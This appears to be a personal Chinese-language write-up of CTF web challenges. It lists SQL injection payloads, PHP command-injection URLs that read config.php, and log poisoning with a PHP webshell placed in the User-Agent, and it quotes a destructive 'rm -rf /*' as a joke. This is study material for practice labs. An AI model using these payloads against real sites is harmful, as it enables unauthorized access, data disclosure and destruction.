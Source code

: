 # web1
sql注入漏洞
```
select * from article where id = -1 union select * from article where id=1000 order by id limit 1
```
-1前一条select无结果，否则输出前一条的结果而不是后一条的结果。
也可
```
select * from article where id=1 or id=1000 --
```
--在sql中为注释符

# web2-7
"/or|+/i" or和+号，/i表示不区分大小写

各种解法
```
?id=CAST(0x339 AS INT)
?id=2 || id = 1000
?id=125*8
?id="1000"
?id=~~1000
?id=/**/1000
?id=0b1111101000
?id=0x3e8
?id=round(999.9)
(div)?id=500 div 0.5
```



# web8
猜密码，一顿操作，去埃塞尔比亚==程序员删库跑路
rm -rf /*

# web9
```
/?c=highlight_file("./config.php");
/?c=system('cat config.php');//结果显示在源码上，不在页面上
```

# web10
passthru() , print_r(file()) ,echo 'tac config.php'
```
/?c=print_r(file("config.php"));
/?c=echo `tac config.php`;
```

# web13
?>用于闭合前面的?,可以不用;
```
/?c=echo `tac config.php`?>
```
config.php中定义了$flag,因此可以直接echo $flag

# web 16
md5解密

# web 17
include（），日志文件注入

curl -i 服务器网址

得到服务器类型为nginx

```
//nginx日志文件地址
/var/log/nginx/access.log
//apache日志文件地址
/var/log/apache/access.log
```

查看日志文件发现其中存入了每次请求的user-agent信息

用brup修改请求，在user-agent中加入一句话木马，

本题也可以直接
```
<?php system('ls');?>
<?php system('cat 36d.php');?>
```

# web22
看了wp还是不懂挖


# 获得百分百的快乐
\$\_GET\[1\],\/?1=

\>ls,创建一个名为ls的文件

\*，以第一个文件的名字为命令执行

nl，计算行号并输出文件内容

# web23
随便上传一个文件，发现文件命名为当前时间，学习大佬脚本爆破，https改成http

TODO：以后自己写一个脚本